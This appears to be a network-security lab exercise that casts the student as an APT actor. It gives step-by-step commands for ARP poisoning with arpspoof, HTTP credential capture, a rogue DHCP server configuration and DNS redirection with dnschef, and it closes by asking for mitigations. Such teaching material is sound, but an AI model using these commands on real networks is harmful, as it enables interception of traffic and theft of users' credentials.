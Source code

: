 # The Silent Snoop

Objective: Act as an APT actor (`APT-77`, "ARP Phantom") to poison the local network's Address Resolution Protocol (ARP) tables and deploy a rogue DHCP server. This will position you as a silent intermediary for all traffic, allowing you to capture plaintext credentials and manipulate DNS resolution.

Scenario: The OpenHands International office LAN uses a flat network structure with minimal segmentation. Your goal is to establish a persistent MitM position on this local network segment to intercept unencrypted traffic and redirect users to a malicious credential-harvesting portal.

## Phase 1: Network Reconnaissance & Topology Mapping

Goal: Understand the local network's addressing scheme and identify key targets like the default gateway and DNS server.

Instructions:

1.  Access Your Foothold:
    *   You have gained physical access to the OpenHands office and plugged your laptop into a network jack. A Linux VM on your laptop is your attack platform.
    *   Command: `ssh volunteer@localhost` (or log in directly to the VM desktop)
    *   Password: `[Provided by Lab Instructor]`

2.  Discover Your Network Configuration:
    *   Your machine should have received an IP address via DHCP. Find your IP, subnet mask, and most importantly, the default gateway.
    *   Command: `ip addr show` and `ip route show default`
    *   Your IP: `[DISCOVER THIS]`
    *   Default Gateway IP: `[DISCOVER THIS]` - This is your primary target. Note it as `GATEWAY_IP`.

3.  Map the Active Network:
    *   Perform an ARP scan to discover other live hosts on your local subnet without being too noisy.
    *   Command: `sudo netdiscover -i eth0 -r <your_subnet>/24` (e.g., if your IP is `192.168.1.50`, use `-r 192.168.1.0/24`)
    *   Finding: Note the IP and MAC address of the default gateway. Also, identify the IP of a colleague's workstation.
    *   Gateway MAC Address: `[DISCOVER THIS]`
    *   Colleague Workstation IP: `[DISCOVER THIS]` - Note it as `VICTIM_IP`.

4.  Identify the Legitimate DHCP Server:
    *   Often, the gateway is also the DHCP server. Check your system's DHCP lease file or try to identify it via network traffic.
    *   Command: `cat /var/lib/dhcp/dhclient.leases` or `sudo tcpdump -i eth0 -n port 67 or port 68 -c 5`
    *   Finding: What is the IP address of the DHCP server? It is likely your `GATEWAY_IP`.
    *   DHCP Server IP: `[CONFIRM THIS]`

Checkpoint: You have mapped the local network and identified the critical network infrastructure: the gateway and a victim machine.

## Phase 2: ARP Cache Poisoning (Machine-in-the-Middle)

Goal: Poison the ARP caches of the victim and the gateway to make them believe your MAC address is associated with the other's IP.

Instructions:

1.  Enable IP Forwarding:
    *   On your attacker machine, enable kernel-level IP forwarding. This ensures that after you intercept traffic, you can forward it on to its real destination, making the attack silent and persistent.
    *   Command: `sudo sysctl -w net.ipv4.ip_forward=1`

2.  Launch the ARP Poisoning Attack:
    *   We will use the tool `arpspoof` from the `dsniff` suite to perform the poisoning.
    *   Terminal 1 - Poison the Victim: Open a new terminal and tell the victim machine: "I am the gateway.":

    ```bash
    sudo arpspoof -i eth0 -t <VICTIM_IP> <GATEWAY_IP>
    ```
    *   Terminal 2 - Poison the Gateway: Open another terminal and tell the gateway: "I am the victim machine.":

    ```bash
    sudo arpspoof -i eth0 -t <GATEWAY_IP> <VICTIM_IP>
    ```

3.  Verify the attack is working:
    *   On your attacker machine, check your ARP table. It should correctly map the IPs to their real MAC addresses.
    *   On the victim machine (ask your instructor for access or simulate it), check its ARP table. The `GATEWAY_IP` should now be mapped to *your* machine's MAC address.
    *   Command on Victim (simulated): `arp -a`
    *   Finding: What MAC address does the victim have for the gateway? It should be your MAC address.
    *   Victim's ARP Entry for Gateway: `[YOUR MAC ADDRESS]`

Checkpoint: You are now a silent intermediary. All traffic between the victim and the gateway flows through your machine. You can begin intercepting.

## Phase 3: Traffic Interception & Credential Harvesting

Goal: Use a network sniffer to capture plaintext traffic and harvest credentials from unencrypted protocols.

Instructions:

1.  Capture Passing Traffic:
    *   Open a third terminal on your attacker machine. Use `tcpdump` to capture any HTTP traffic (which is unencrypted) for analysis.
    *   Command: `sudo tcpdump -i eth0 -w captured_http.pcap port 80 and host <VICTIM_IP>`

2.  Trigger Data Generation (Optional):
    *   Inform your lab instructor. They may have the "victim" machine browse to an internal HTTP-only login page (e.g., a legacy intranet site) and enter dummy credentials.

3.  Analyze the Capture for Credentials:
    *   Stop the `tcpdump` capture after a minute. Transfer the file to your home directory and open it in Wireshark.
    *   Command: `wireshark captured_http.pcap`
    *   Finding: In Wireshark, apply the filter `http.request.method == POST`. Follow the TCP stream of this packet. Can you find the submitted username and password in plaintext?
    *   Exfiltrated Credentials: `username=[DISCOVER THIS]&password=[DISCOVER THIS]`

Checkpoint: You have successfully intercepted and harvested plaintext credentials due to the use of an unencrypted protocol.

## Phase 4: Deploying a Rogue DHCP Server (Persistence)

Goal: Go beyond a single victim. Deploy a malicious DHCP server to assign yourself as the default gateway and DNS server for *every new device* on the network.

Instructions:

1.  Configure the Rogue DHCP Server:
    *   The tool `isc-dhcp-server` is pre-installed. You need to edit its configuration file.
    *   Command: `sudo nano /etc/dhcp/dhcpd.conf`
*   Configuration to add:

```text
authoritative;
subnet 192.168.1.0 netmask 255.255.255.0 {
  range 192.168.1.100 192.168.1.200;
  option routers <YOUR_ATTACKER_IP>;    # You become the gateway
  option domain-name-servers <YOUR_ATTACKER_IP>; # You become the DNS server
}
```

  *   *Adjust the subnet to match your lab environment.*

2.  Start the Rogue Server:
    *   Start the DHCP server on your network interface. This will respond to DHCP requests faster than the legitimate server.
*   Commands:

```bash
sudo systemctl stop systemd-resolved  # Stop any conflicting service
sudo dhcpd -f -d eth0 &               # Start the rogue server in the foreground
```

3.  Force Clients to Reconnect:
    *   Ask your instructor to release and renew the DHCP lease on another lab machine (the "victim").
    *   Command on Victim (simulated): `sudo dhclient -r eth0 && sudo dhclient eth0`
    *   Verification: After the victim renews, check its new gateway and DNS server. They should now be your attacker IP.
    *   Victim's New Gateway: `[YOUR_ATTACKER_IP]`

Checkpoint: You have achieved network-level persistence. Any new device joining the network or renewing its lease will now be routed through you.

## Phase 5: DNS Manipulation (Optional Bonus)

Goal: Since you are now the DNS server for poisoned clients, you can manipulate their internet traffic.

Instructions:

1.  Set Up a Simple DNS Server:
    *   Use a simple tool like `dnschef` to run a fake DNS server that redirects all queries to an IP you control (e.g., for a phishing site).
    *   Command: `sudo dnschef --fakeip=<YOUR_ATTACKER_IP> --interface=<YOUR_ATTACKER_IP> --port=53`

2.  Test the DNS Redirection:
    *   On the victim machine, try to browse to `http://www.google.com`. The request will be sent to your machine's web server instead.
    *   Observation: If you set up a simple HTTP server on your machine (`sudo python3 -m http.server 80`), you will see the victim's request in your logs.

Final Report: Document all the `[DISCOVER THIS]` fields. Explain the impact of ARP and DHCP poisoning on network security. Propose two mitigations to prevent these attacks (e.g., DHCP Snooping, Dynamic ARP Inspection).
